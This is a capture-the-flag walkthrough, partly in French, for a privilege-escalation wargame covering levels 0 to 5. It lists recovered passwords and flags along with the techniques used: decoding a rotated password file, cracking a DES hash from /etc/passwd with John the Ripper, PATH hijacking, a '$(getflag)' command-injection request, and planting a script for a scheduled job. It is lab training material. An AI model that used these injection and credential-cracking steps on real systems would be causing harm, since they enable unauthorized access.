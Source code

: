 
# level 0
level00:level00

`find / -group "flag00" 2>/dev/null`
```
/usr/sbin/john
/rofs/usr/sbin/john
```
`cat /usr/sbin/john`
```
cdiiddwpgswtgt
```
`su flag00:cdiiddwpgswtgt -> fail`

`dcode.fr -> rot15 -> 	cdiiddwpgswtgt -> NOTTOOHARDHERE`

`su flag00:nottoohardhere`

`getflag`
```
x24ti5gi3x0ol2eh4esiuxias
```
# level 1
su level01:x24ti5gi3x0ol2eh4esiuxias

`cat /etc/passwd`

flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

su flag01:42hDRfypTqqnw -> fail

john the ripper  [DES 128/128 SSE2-16]) -> ```42hDRfypTqqnw :  abcdefg```

su flag01:abcdef

getflag
```
f2av5il02puano7naaf6adaaf
```

# level 02
su level02:f2av5il02puano7naaf6adaaf

level02.pcap open it with wireshark follow tcp stream -> read pwd flag

Password: ft_wandr...NDRel.L0L -> ft_waNDReL0L

getflag-> kooda2puivaav1idi4f57q8iq

# level 03
su level03:kooda2puivaav1idi4f57q8iq
./level03 -> exploit me
ls -l ./level03 a le groupe flag03
en desassemblant le binaire, la string est ecrite comme ceci "/usr/bin/env echo Exploit me"

en utilisant un autre echo on peut appeler getflag et avoir le flag `qi0maab88jeaj46qoumi7maus`


# level 04
fichier perl qui resume le contenu d'un serveur, imprime le contenu de la variable x
curl "http://127.0.0.1:4747/?x=\$(getflag)"
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

# level 5

you have new mail in /var/mail/level05

find / -group flag05 2>/dev/null

cat /usr/sbin/openarenaserver 

echo 'getflag > /tmp/coucou' > /opt/openarenaserver/coucou


watch cat /tmp/coucou -> viuaaale9huek52boumoomioc
viuaaale9huek52boumoomioc

# level 6







